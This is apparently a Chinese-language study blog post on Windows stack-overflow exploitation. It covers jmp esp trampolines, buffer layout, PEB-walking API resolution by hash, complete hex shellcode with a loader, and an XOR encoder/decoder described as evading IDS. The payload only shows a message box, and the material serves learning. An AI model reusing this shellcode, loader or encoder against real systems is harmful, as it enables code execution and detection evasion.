

shellcode 这个专用术语来通称缓冲区溢出攻击中植入进程的代码
概述
shellcode 与exploit
shellcode 往往需要用汇编语言编写，并转换成二进制机器码，其内容和长度经常还会受到很多苛刻限制，开发和调试的难度很高。
调试之后还要计算函数返回地址距离缓冲区的偏移并淹没之，选择指令的地址，最终制作出一个有攻击效果的“承载”着shellcode 的输入字符串。这个代码植入的过程就是漏洞利用，也就是exploit
exploit 一般以一段代码的形式出现，用于生成攻击性的网络数据包或者其他形式的攻击性输入。expliot 的核心是淹没返回地址，劫持进程的控制权，之后跳转去执行shellcode
与shellcode具有一定的通用性不同，exploit 往往是针对特定漏洞而言的
定位shellcode
栈帧移位与jmp esp
在实际的漏洞利用过程中，由于动态链接库的装入和卸载等原因，Windows 进程的函数栈帧很有可能会产生“移位”，即shellcode 在内存中的地址是会动态变化的
一般情况下，ESP 寄存器中的地址总是指向系统栈中且不会被溢出的数据破坏。函数返回时，ESP 所指的位置恰好是我们所淹没的返回地址的下一个位置
由于ESP 寄存器在函数返回后不被溢出数据干扰，且始终指向返回地址之后的位置，我们可以使用图所示的这种定位shellcode 的方法来进行动态定位
（1）用内存中任意一个jmp esp 指令的地址覆盖函数返回地址，而不是原来用手工查出的shellcode 起始地址直接覆盖。
（2）函数返回后被重定向去执行内存中的这条jmp esp 指令，而不是直接开始执行shellcode。
（3）由于esp 在函数返回时仍指向栈区（函数返回地址之后），jmp esp 指令被执行后，处理器会到栈区函数返回地址之后的地方取指令执行。
（4）重新布置shellcode。在淹没函数返回地址后，继续淹没一片栈空间。将缓冲区前边一段地方用任意数据填充，把shellcode 恰好摆放在函数返回地址之后。这样，jmp esp 指令执行过后会恰好跳进shellcode
这种定位 shellcode 的方法使用进程空间里一条jmp esp 指令作为“跳板”，不论栈帧怎么“移位”，都能够精确地跳回栈区，从而适应程序运行中shellcode 内存地址的动态变化。
获取“跳板”的地址
2.4 节实验（昨天那个文章的最后一个程序）中的有漏洞的密码验证程序已经加载了user32.dll，所以我们准备使用user32.dll中的jmp esp 作为跳板。获得user32.dll 内跳转指令地址最直观的方法就是编程序搜索内存。
1 | #include <windows.h> |
jmp esp 对应的机器码是0xFFE4，上述程序的作用就是从user32.dll 在内存中的基地址开始向后搜索0xFFE4，如果找到就返回其内存地址（指针值）。
下来使用OD的插件进行查找指令
使用“跳板”定位的exploit
我们运行自己编写的程序搜索跳转地址得到与OD插件搜索到的基本一样
采用位于内存0x77D93AC8 处的跳转地址jmp esp 作为定位shellcode 的“跳板”
在制作exploit 的时候，还应当修复2.4 节中shellcode 无法正常退出的缺陷。为此，我们在调用MessageBox 之后，通过调用exit 函数让程序干净利落地退出。
我们最总得到函数的入口内存地址为7C81BFA2
写出的shellcode 的源代码如下所示。1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24#include <windows.h>
int main()
{
HINSTANCE LibHandle;
char dllbuf[11] = "user32.dll";
LibHandle = LoadLibrary(dllbuf);
_asm{
sub sp,0x440
xor ebx,ebx
push ebx // cut string
push 0x74736577
push 0x6C696166//push failwest
mov eax,esp //load address of failwest
push ebx
push eax
push eax
push ebx
mov eax,0x77D804EA // address should be reset in different OS
call eax //call MessageboxA
push ebx
mov eax,0x7C81CDDA
call eax //call exit(0)
}
}
我们用vs编译成可执行文件 然后在OD中找到对应汇编指令的机器代码
下来就是制作对应的机器代码文件了1
2
3
4
5
6
7
8
9
10
11
12
13
1433 DB XOR EBX,EBX
53 PUSH EBX
68 77 65 73 74 PUSH 74736577
68 66 61 69 6C PUSH 6C696166 压入NULL 结尾的“failwest”字符串。之所以用EBX 清零后入栈作为字符串的截断符，是为了避免“PUSH 0”中的NULL，否则植入的机器码会被strcpy函数截断
8B C4 MOV EAX,ESP EAX 里是字符串指针
53 PUSH EBX
50 PUSH EAX
50 PUSH EAX
53 PUSH EBX 4 个参数按照从右向左的顺序入栈， 分别为(0,failwest,failwest,0)消息框为默认风格，文本区和标题都是“failwest”
B8 EA 04 D8 77 MOV EAX, 0x77D507EA
FF D0 CALL EAX 调用MessageBoxA。注意：不同的机器这里的函数入口地址可能不同，请按实际值填入
53 PUSH EBX
B8 DA CD 81 7C MOV EAX, 0x7C81BFA2
FF D0 CALL EAX 调用exit(0)。注意：不同的机器这里的函数入口地址可能不同，请按实际值填入
我们将机器代码写入文件之中
接下来运行程序就不会报错了 而且还是同样的程序框
缓冲区的组织
缓冲区的组成
如果选用jmp esp 作为定位shellcode 的跳板，那么在函数返回后要根据缓冲区大小、所需shellcode 长短等实际情况灵活地布置缓冲区。送入缓冲区的数据可以分为以下几种。
（1）填充物：可以是任何值，但是一般用NOP 指令对应的0x90 来填充缓冲区，并把shellcode布置于其后。这样即使不能准确地跳转到shellcode 的开始，只要能跳进填充区，处理器最终也能顺序执行到shellcode。
（2）淹没返回地址的数据：可以是跳转指令的地址、shellcode 起始地址，甚至是一个近似的 shellcode 的地址。
（3）shellcode：可执行的机器代码。
2.4节我们将shellcode放在了缓冲区中 3.2皆我们用jmp esp来定位shellcode shellcode布置在函数返回地址之后的好处（不用担心自身被压栈数据破坏）。但是，超过函数返回地址以后将是前栈帧数据（栈的方向，内存高址），而一个实用的shellcode 往往需要几百个字节，这样大范围地破坏前栈帧数据有可能引发一些其他问题。例如，若想在执行完shellcode 后通过修复寄存器的值，让函数正常返回继续执行原程序，就不能随意破坏前栈帧的数据。
放在缓冲区的好处：
（1）合理利用缓冲区，使攻击串的总长度减小：对于远程攻击，有时所有数据必须包含在一个数据包中！
（2）对程序破坏小，比较稳定：溢出基本发生在当前栈帧内，不会大范围破坏前栈帧。
抬高栈顶保护shellcode
将shellcode 布置在缓冲区中虽然有不少好处，但是也会产生问题。函数返回时，当前栈帧被弹出，这时缓冲区位于栈顶ESP 之上的内存区域。在弹出栈帧时只是改变了ESP 寄存器中的值，逻辑上，ESP 以上的内存空间的数据已经作废；物理上，这些数据并没有被销毁。如果shellcode 中没有压栈指令向栈中写入数据还没有太大影响；但如果使用push 指令在栈中暂存数据，压栈数据很可能会破坏到shellcode 本身。这个过程如图所示。
当缓冲区相对shellcode 较大时，把shellcode 布置在缓冲区的“前端”（内存低址方向），这时shellcode 离栈顶较远，几次压栈可能只会破坏到一些填充值nop；但是，如果缓冲区已经被shellcode 占满，则shellcode 离栈顶比较近，这时的情况就比较危险了。
为了使shellcode 具有较强的通用性，我们通常会在shellcode 一开始就大范围抬高栈顶，把shellcode“藏”在栈内，从而达到保护自身安全的目的 如下图
使用其他跳转指令
除了ESP外 还有EAX EBX ESI等继勋奇也会指向栈顶附近 使用这些指令的也可以完成进栈功能

不使用跳转指令
个别有苛刻的限制条件的漏洞不允许我们使用跳转指令精确定位 shellcode，而使用shellcode 的静态地址来覆盖又不够准确，这时我们可以做一个折中：如果能够淹没大片的内存区域，可以将shellcode 布置在一大段nop 之后。这时定位shellcode 时，只要能跳进这一大片nop 中，shellcode 就可以最终得到执行 如下图：

函数返回地址移位
和上面差不多 返回地址偏移量也是不确定的 我们也可以这样做！
开发通用的shellcode
然而不同版本的计算机动态链接库的加载基址时不一样的 偏移地址也不同 我们在自己计算机上面适用 在其他计算机可能就失效了 所以 在实际中 我们使用的shellcode必须能够动态的获取自身所需要的API函数地址
Windows 的API 是通过动态链接库中的导出函数来实现的，例如，内存操作等函数在kernel32.dll 中实现；大量的图形界面相关的API 则在user32.dll 中实现。Win_32 平台下的shellcode 使用最广泛的方法，就是通过从进程环境块中找到动态链接库的导出表，并搜索出所需的API 地址，然后逐一调用。
所有win_32 程序都会加载ntdll.dll 和kernel32.dll 这两个最基础的动态链接库。如果想要在win_32 平台下定位kernel32.dll 中的 API 地址，可以采用如下方法。
（1）首先通过段选择字FS 在内存中找到当前的线程环境块TEB。
（2）线程环境块偏移位置为0x30 的地方存放着指向进程环境块PEB 的指针。
（3）进程环境块中偏移位置为0x0C 的地方存放着指向PEB_LDR_DATA 结构体的指针，其中，存放着已经被进程装载的动态链接库的信息。
（4）PEB_LDR_DATA 结构体偏移位置为0x1C 的地方存放着指向模块初始化链表的头指针InInitializationOrderModuleList。
（5）模块初始化链表InInitializationOrderModuleList 中按顺序存放着PE 装入运行时初始化模块的信息，第一个链表结点是ntdll.dll，第二个链表结点就是kernel32.dll。
（6）找到属于kernel32.dll 的结点后，在其基础上再偏移0x08 就是kernel32.dll 在内存中的加载基地址。
（7）从kernel32.dll 的加载基址算起，偏移0x3C 的地方就是其PE 头。
（8）PE 头偏移0x78 的地方存放着指向函数导出表的指针。
（9）至此，我们可以按如下方式在函数导出表中算出所需函数的入口地址，如图所示。
导出表偏移0x1C 处的指针指向存储导出函数偏移地址（RVA）的列表。
导出表偏移0x20 处的指针指向存储导出函数函数名的列表。
函数的RVA 地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA。
获得RVA 后，再加上前边已经得到的动态链接库的加载基址，就获得了所需API 此刻在内存中的虚拟地址，这个地址就是我们最终在shellcode 中调用时需要的地址。
按照上面的方法，我们已经可以获得kernel32.dll 中的任意函数。类似地，我们已经具备了定位ws2_32.dll 中的winsock 函数来编写一个能够获得远程shell 的真正的shellcode 了。
其实，在摸透了kernel32.dll 中的所有导出函数之后，结合使用其中的两个函数LoadLibrary()和GetProcAddress()，有时可以让定位所需其他API 的工作变得更加容易。
下来就是让shellcode能够完善一些 使他能够适应所有的wen_31平台
shellcode 的加载与调试
我们常见的shellcode是把机器码存在一个数组中 前面就是这样 这种形式的shellcode可以在C语言在轻易的布置进内存区域 但是如果出了问题 往往很难调试 shellcode往往需要已经初始化好了的进程空间和资源等 故往往不能单独运行 为了能够实际运行中调试这样的机器码，我们可以使用这样一段简单的代码来装载shellcode。
1 | char shellcode[]="\x66\x81\xEC\x40\x04\x33\xDB……";//欲调试的十六 |
ret 指令会将push 进去的shellcode 在栈中的起始地址弹给EIP，让处理器跳转到栈区去执行shellcode
动态定位API 地址的shellcode
需要的API函数：
（1）MessageBoxA 位于user32.dll 中，用于弹出消息框。
（2）ExitProcess 位于kernel32.dll 中，用于正常退出程序。
（3）LoadLibraryA 位于kernel32.dll 中。并不是所有的程序都会装载user32.dll，所以在我们调用MessageBoxA 之前，应该先使用LoadLibrary(“user32.dll”)装载其所属的动态链接库。
我们可以用前面介绍的方法来找到地址 但shellcode总是要放进缓冲区的 为了让shellcode更加通用 我们得让shellcode尽可能的短 但是导出表的函数名往往很长 我们并不能用“MessageBoxA”这么长的字符串去进行直接比较
我们会对API函数进行hash运算 在搜索导出表时对当前遇到的函数名也进行了同样的bash 这就只需要比较hash所得的值就能判定是不是我们需要的API
hash代码：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19#include <stdio.h>
#include <windows.h>
DWORD GetHash(char *fun_name)
{
DWORD digest=0;
while(*fun_name)
{
digest=((digest<<25)|(digest>>7)); //循环右移7 位
digest+= *fun_name ; //累加
fun_name++;
}
return digest;
}
main()
{
DWORD hash;
hash= GetHash("AddAtomA");
printf("result of hash is %.8x\n",hash);
}
如上述代码，将把字符串中的字符逐一取出，把ASCII 码从单字节转换成四字节的双字（DWORD），循环右移7位之后再进行累积。
上述hash 算法只需要用ror 和add 两条指令就能实现。
| API函数名 | 经过hash运算后得到的结果 |
|---|---|
| MessageBoxA | 0x1e380a6a |
| ExitProcess | 0x4fd18963 |
| LoadLibraryA | 0x0c917432 |
在将hash 压入栈中之前，注意先将增量标志DF 清零。因为当shellcode 是利用异常处理机制而植入的时候，往往会产生标志位的变化，使shellcode 中的字串处理方向发生变化而产生错误（如指令LODSD）。如果您在堆溢出利用中发现原本身经百战的shellcode 在运行时出错，很可能就是这个原因。总之，一个字节的指令可以大大增加shellcode 的通用性。
现在可以将这些hash 结果压入栈中，并用一个寄存器标识位置，以备后面搜索API 函数时使用。
1 | ;store hash |
然后我们需要抬高栈顶，保护shellcode 不被入栈数据破坏。1
2
3
4;make some stack space
xor ebx,ebx
mov bh, 0x04
sub esp, ebx
定位kernel32.dll 的代码如下。1
2
3
4
5
6
7
8;find base addr of kernel32.dll
mov ebx, fs:[edx + 0x30] ;ebx = address of PEB
mov ecx, [ebx + 0x0c] ;ecx = pointer to loader data
mov ecx, [ecx + 0x1c] ;ecx = first entry in initialisation
;order list
mov ecx, [ecx] ;ecx = second entry in list
;(kernel32.dll)
mov ebp, [ecx + 0x08] ;ebp = base address of kernel32.dll
在导入表中搜索API 的逻辑可以设计如图所示。
代码如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122
123
124
125
126
127
128
129
130
131int main()
{
_asm{
CLD ;clear flag DF
;store hash
push 0x1e380a6a ;hash of MessageBoxA
push 0x4fd18963 ;hash of ExitProcess
push 0x0c917432 ;hash of LoadLibraryA
mov esi,esp ;esi = addr of first function hash
lea edi,[esi-0xc] ;edi = addr to start writing function
;make some stack space
xor ebx,ebx
mov bh, 0x04
sub esp, ebx
;push a pointer to "user32" onto stack
mov bx, 0x3233 ;rest of ebx is null
push ebx
push 0x72657375
push esp
xor edx,edx
;find base addr of kernel32.dll
mov ebx, fs:[edx + 0x30] ;ebx = address of PEB
mov ecx, [ebx + 0x0c] ;ecx = pointer to loader data
mov ecx, [ecx + 0x1c] ;ecx = first entry in initialization
;order list
mov ecx, [ecx] ;ecx = second entry in list
;(kernel32.dll)
mov ebp, [ecx + 0x08] ;ebp = base address of kernel32.dll
find_lib_functions:
lodsd ;load next hash into al and increment esi
cmp eax, 0x1e380a6a ;hash of MessageBoxA - trigger
;LoadLibrary("user32")
jne find_functions
xchg eax, ebp ;save current hash
call [edi - 0x8] ;LoadLibraryA
xchg eax, ebp ;restore current hash, and update ebp
;with base address of user32.dll\
find_functions:
pushad ;preserve registers
mov eax, [ebp + 0x3c] ;eax = start of PE header
mov ecx, [ebp + eax + 0x78] ;ecx = relative offset of export table
add ecx, ebp ;ecx = absolute addr of export table
mov ebx, [ecx + 0x20] ;ebx = relative offset of names table
add ebx, ebp ;ebx = absolute addr of names table
xor edi, edi ;edi will count through the functions
next_function_loop:
inc edi ;increment function counter
mov esi, [ebx + edi * 4] ;esi = relative offset of current
;function name
add esi, ebp ;esi = absolute addr of current
;function name
cdq ;dl will hold hash (we know eax is
;small)
hash_loop:
movsx eax, byte ptr[esi]
cmp al,ah
jz compare_hash
ror edx,7
add edx,eax
inc esi
jmp hash_loop
compare_hash:
cmp edx, [esp + 0x1c] ;compare to the requested hash (saved on
;stack from pushad)
jnz next_function_loop
mov ebx, [ecx + 0x24] ;ebx = relative offset of ordinals
;table
add ebx, ebp ;ebx = absolute addr of ordinals
;table
mov di, [ebx + 2 * edi] ;di = ordinal number of matched
;function
mov ebx, [ecx + 0x1c] ;ebx = relative offset of address
;table
add ebx, ebp ;ebx = absolute addr of address table
add ebp, [ebx + 4 * edi] ;add to ebp (base addr of module) the
;relative offset of matched function
xchg eax, ebp ;move func addr into eax
pop edi ;edi is last onto stack in pushad
stosd ;write function addr to [edi] and
;increment edi
push edi
popad ;restore registers
;loop until we reach end of last hash
cmp eax,0x1e380a6a
jne find_lib_functions
function_call:
xor ebx,ebx
push ebx ;cut string
push 0x74736577
push 0x6C696166 ;push failwest
mov eax,esp ;load address of failwest
push ebx
push eax
push eax
push ebx
call [edi - 0x04] ;call MessageboxA
push ebx
call [edi - 0x08] ;call ExitProcess
nop
nop
nop
nop
}
}
上面代码可以用vs编译出可执行文件 然后用OD中提取的二进制汇编代码如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71"\x90"// NOP
"\xFC"// CLD
"\x68\x6A\x0A\x38\x1E"// PUSH 1E380A6A
"\x68\x63\x89\xD1\x4F"// PUSH 4FD18963
"\x68\x32\x74\x91\x0C"// PUSH 0C917432
"\x8B\xF4"// MOV ESI,ESP
"\x8D\x7E\xF4"// LEA EDI,DWORD PTR DS:[ESI-C]
"\x33\xDB"// XOR EBX,EBX
"\xB7\x04"// MOV BH,4
"\x2B\xE3"// SUB ESP,EBX
"\x66\xBB\x33\x32"// MOV BX,3233
"\x53"// PUSH EBX
"\x68\x75\x73\x65\x72"// PUSH 72657375
"\x54"// PUSH ESP
"\x33\xD2"// XOR EDX,EDX
"\x64\x8B\x5A\x30"// MOV EBX,DWORD PTR FS:[EDX+30]
"\x8B\x4B\x0C"// MOV ECX,DWORD PTR DS:[EBX+C]
"\x8B\x49\x1C"// MOV ECX,DWORD PTR DS:[ECX+1C]
"\x8B\x09"// MOV ECX,DWORD PTR DS:[ECX]
"\x8B\x69\x08"// MOV EBP,DWORD PTR DS:[ECX+8]
"\xAD"// LODS DWORD PTR DS:[ESI]
"\x3D\x6A\x0A\x38\x1E"// CMP EAX,1E380A6A
"\x75\x05"// JNZ SHORT popup_co.00401070
"\x95"// XCHG EAX,EBP
"\xFF\x57\xF8"// CALL DWORD PTR DS:[EDI-8]
"\x95"// XCHG EAX,EBP
"\x60"// PUSHAD
"\x8B\x45\x3C"// MOV EAX,DWORD PTR SS:[EBP+3C]
"\x8B\x4C\x05\x78"// MOV ECX,DWORD PTR SS:[EBP+EAX+78]
"\x03\xCD"// ADD ECX,EBP
"\x8B\x59\x20"// MOV EBX,DWORD PTR DS:[ECX+20]
"\x03\xDD"// ADD EBX,EBP
"\x33\xFF"// XOR EDI,EDI
"\x47"// INC EDI
"\x8B\x34\xBB"// MOV ESI,DWORD PTR DS:[EBX+EDI*4]
"\x03\xF5"// ADD ESI,EBP
"\x99"// CDQ
"\x0F\xBE\x06"// MOVSX EAX,BYTE PTR DS:[ESI]
"\x3A\xC4"// CMP AL,AH
"\x74\x08"// JE SHORT popup_co.00401097
"\xC1\xCA\x07"// ROR EDX,7
"\x03\xD0"// ADD EDX,EAX
"\x46"// INC ESI
"\xEB\xF1"// JMP SHORT popup_co.00401088
"\x3B\x54\x24\x1C"// CMP EDX,DWORD PTR SS:[ESP+1C]
"\x75\xE4"// JNZ SHORT popup_co.00401081
"\x8B\x59\x24"// MOV EBX,DWORD PTR DS:[ECX+24]
"\x03\xDD"// ADD EBX,EBP
"\x66\x8B\x3C\x7B"// MOV DI,WORD PTR DS:[EBX+EDI*2]
"\x8B\x59\x1C"// MOV EBX,DWORD PTR DS:[ECX+1C]
"\x03\xDD"// ADD EBX,EBP
"\x03\x2C\xBB"// ADD EBP,DWORD PTR DS:[EBX+EDI*4]
"\x95"// XCHG EAX,EBP
"\x5F"// POP EDI
"\xAB"// STOS DWORD PTR ES:[EDI]
"\x57"// PUSH EDI
"\x61"// POPAD
"\x3D\x6A\x0A\x38\x1E"// CMP EAX,1E380A6A
"\x75\xA9"// JNZ SHORT popup_co.00401063
"\x33\xDB"// XOR EBX,EBX
"\x53"// PUSH EBX
"\x68\x77\x65\x73\x74"// PUSH 74736577
"\x68\x66\x61\x69\x6C"// PUSH 6C696166
"\x8B\xC4"// MOV EAX,ESP
"\x53"// PUSH EBX
"\x50"// PUSH EAX
"\x50"// PUSH EAX
"\x53"// PUSH EBX
"\xFF\x57\xFC"// CALL DWORD PTR DS:[EDI-4]
"\x53"// PUSH EBX
"\xFF\x57\xF8";// CALL DWORD PTR DS:[EDI-8]
上面被保存在字符数组的shellcode已经可以轻易的在exploit程序中运行了 也可用shellcodde装载程序单独使用：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21char popup_general[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";
void main()
{
__asm
{
lea eax, popup_general
push eax
ret
}
}
这样就可以在所有的win_32平台下运行了
shellcode 编码技术
为什么要对shellcode 编码
因为有些场景不适用
首先，所有的字符串函数都会对NULL 字节进行限制。通常我们需要选择特殊的指令来避免在shellcode 中直接出现NULL 字节（byte，ASCII 函数）或字（word，Unicode 函数）。
其次，有些函数还会要求shellcode 必须为可见字符的ASCII 值或Unicode 值。在这种限制较多的情况下，如果仍然通过挑选指令的办法控制shellcode 的值的话，将会给开发带来很大困难。
最后，除了以上提到的软件自身的限制之外，在进行网络攻击时，基于特征的IDS 系统往往也会对常见的shellcode 进行拦截。
所以就要用到编码了 我们先编码成程序能够接受的 然后读取进去之后 我们再用几行代码进行解码就行
会“变形”的shellcode
下面进行编码运算 最简单的编码就是异或运算了 而我们需要注意的是：
用于异或的特定数据相当于加密算法的密钥，在选取时不可与shellcode 已有字节相同，否则编码后会产生NULL 字节。
可以选用多个密钥分别对shellcode 的不同区域进行编码，但会增加解码操作的复杂性。
可以对shellcode 进行很多轮编码运算。
编码器代码：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48void encoder (char* input, unsigned char key, int display_flag)// bool
display_flag
{
int i=0,len=0;
FILE * fp;
unsigned char * output;
len = strlen(input);
output=(unsigned char *)malloc(len+1);
if(!output)
{
printf("memory erro!\n");
exit(0);
}
//encode the shellcode
for(i=0;i<len;i++)
{
output[i] = input[i]^key;
}
if(!(fp=fopen("encode.txt","w+")))
{
printf("output file create erro");
exit(0);
}
fprintf(fp,"\"");
for(i=0;i<len;i++)
{
fprintf(fp,"\\x%0.2x", output[i]);
if((i+1)%16==0)
{
fprintf(fp,"\"\n\"");
}
}
fprintf(fp,"\";");
fclose(fp);
printf("dump the encoded shellcode to encode.txt OK!\n");
if(display_flag)//print to screen
{
for(i=0;i<len;i++)
{
printf("%0.2x ",output[i]);
if((i+1)%16==0)
{
printf("\n");
}
}
}
free(output);
}
encoder（）函数会使用传入的key 参数对输入的数据逐一异或，并将其整理成十六进制的形式dump 进一个名为encode.txt 的文件中。这里对第四节中的通用shellcode 进行编码，密钥采用0x44，在main 中直接调用encoder(popup_general,0x44 ,1)，会得到经过编码的shellcode如下：
1 | "\xb8\x2c\x2e\x4e\x7c\x5a\x2c\x27\xcd\x95\x0b\x2c\x76\x30\xd5\x48" |
对于解码 我们可以用以下几条指令：1
2
3
4
5
6
7
8
9
10
11
12
13
14
15void main()
{
__asm
{
add eax, 0x14 //越过decoder，记录shellcode 的起始地址
xor ecx,ecx
decode_loop:
mov bl,[eax+ecx]
xor bl, 0x44 //这里用0x44 作为key，如编码的key 改变，这里也要相应改变
mov [eax+ecx],bl
inc ecx
cmp bl,0x90 //在shellcode 末尾放上一个字节的0x90 作为结束符
jne decode_loop
}
}
对于这个解码器，有以下需要注意的地方。
（1）解码器不能单独运行，需要用VC 6.0 将其编译，然后用OllyDbg 提取出二进制的机器代码，联合经过编码的shellcode 一起执行。
（2）解码器默认在shellcode 开始执行时，EAX 已经对准了shellcode 的起始位置。
（3）解码器将认为shellcode 的最后一个字节为0x90，所以在编码前要注意给原始shellcode多加一个字节的0x90 作为结尾，否则会产生错误。
| 机器代码 | 汇编指令 | 说明 |
|---|---|---|
| “\x83\xC0\x14” | ADD EAX,14 h | 跃过decoder 代码区 |
| “\x33\xC9” | XOR ECX,ECX | ECX 被当作循环控制变量 |
| “\x8A\x1C\x08” | MOV BL, [EAX+ECX] | |
| “\x80\xF3\x44” | XOR BL,44 h | 这里key=0x44，如果encode 使用新key，这里需要做相应的修改 |
| “\x88\x1C\x08” | MOV[EAX+ECX],BL | |
| “\x41” | INC ECX | |
| “\x80\xFB\x90” | CMP BL,90 h | 将0x90 作为shellcode 结束的标识符 |
| “\x75\xF1” | JNZ |
最后 将这20个字节的编码指令与经过编码的shellcode一起送入装载器测试：
1 | char final_sc_44[]= |
编译之后 就能看到failwest弹框了